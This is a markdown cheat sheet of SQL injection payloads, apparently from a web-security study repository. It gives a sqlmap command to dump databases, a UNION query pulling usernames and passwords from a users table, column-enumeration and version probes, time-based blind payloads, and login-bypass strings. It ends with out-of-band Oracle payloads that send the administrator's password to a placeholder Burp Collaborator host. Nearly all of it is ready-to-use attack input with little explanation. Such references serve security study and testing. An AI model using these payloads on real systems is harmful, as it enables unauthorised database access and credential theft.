 # SQL Injection

-- o #

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--
```

### First detect numbers of columns
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
...
# Oracle
' UNION SELECT NULL FROM dual--
' UNION SELECT NULL, NULL FROM dual--
' UNION SELECT NULL, NULL, NULL FROM dual--
```
### Second Find where holds strings data
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```
# Version
```http2
Database type 	              Query
Microsoft, MySQL 	    SELECT @@version
Oracle 	                    SELECT * FROM v$version
PostgreSQL 	            SELECT version() 
```

## Blind SQL Injection:
```sql
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
```
## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for https request - Blind:
```http2
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```http2
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
### CheatSheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
